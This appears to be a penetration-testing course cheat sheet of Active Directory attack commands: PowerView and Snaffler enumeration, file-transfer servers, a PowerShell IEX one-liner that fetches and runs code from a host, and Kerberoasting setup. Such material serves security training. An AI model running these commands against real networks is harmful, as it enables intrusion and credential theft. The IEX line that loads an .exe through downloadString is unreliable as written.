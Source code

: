 | `Test-AdminAccess`                                                                       | PowerView script used to test if the current user has administrative access to the local (or a remote) machine. Performed from a Windows-based host.                                      |
| `Find-DomainUserLocation`                                                                | PowerView script used to find machines where specific users are logged into. Performed from a Windows-based host.                                                                         |
| `Find-DomainShare`                                                                       | PowerView script used to find reachable shares on domain machines. Performed from a Windows-based host.                                                                                   |
| `Find-InterestingDomainShareFile`                                                        | PowerView script that searches for files matching specific criteria on readable shares in the domain. Performed from a Windows-based host.                                                |
| `Find-LocalAdminAccess`                                                                  | PowerView script used to find machines on the local domain where the current user has local administrator access Performed from a Windows-based host.                                     |
| `Get-DomainTrust`                                                                        | PowerView script that returns domain trusts for the current domain or a specified domain. Performed from a Windows-based host.                                                            |
| `Get-ForestTrust`                                                                        | PowerView script that returns all forest trusts for the current forest or a specified forest. Performed from a Windows-based host.                                                        |
| `Get-DomainForeignUser`                                                                  | PowerView script that enumerates users who are in groups outside of the user's domain. Performed from a Windows-based host.                                                               |
| `Get-DomainForeignGroupMember`                                                           | PowerView script that enumerates groups with users outside of the group's domain and returns each foreign member. Performed from a Windows-based host.                                    |
| `Get-DomainTrustMapping`                                                                 | PowerView script that enumerates all trusts for current domain and any others seen. Performed from a Windows-based host.                                                                  |
| `Get-DomainGroupMember -Identity "Domain Admins" -Recurse`                               | PowerView script used to list all the members of a target group (`"Domain Admins"`) through the use of the recurse option (`-Recurse`). Performed from a Windows-based host.              |
| `Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName`                    | PowerView script used to find users on the target Windows domain that have the `Service Principal Name` set. Performed from a Windows-based host.                                         |
| `.\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data`                                       | Runs a tool called `Snaffler` against a target Windows domain that finds various kinds of data in shares that the compromised account has access to. Performed from a Windows-based host. |

### Transfering Files

|Command|Description|
|---|---|
|`sudo python3 -m http.server 8001`|Starts a python web server for quick hosting of files. Performed from a Linux-basd host.|
|`"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"`|PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host.|
|`impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/`|Starts a impacket `SMB` server for quick hosting of a file. Performed from a Windows-based host.|

### Kerberoasting

| Command                                                                                                                                                                                                      | Description                                                                                                                                                                                      |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `sudo python3 -m pip install .`                                                                                                                                                                              | Used to install Impacket from inside the directory that gets cloned to the attack host. Performed from a Linux-based host.                                                                       |
| `GetUserSPNs.py -h`                                                                                                                                                                                          | Impacket tool used to display the options and functionality of `GetUserSPNs.py` from a Linux-based host.                                                                                         |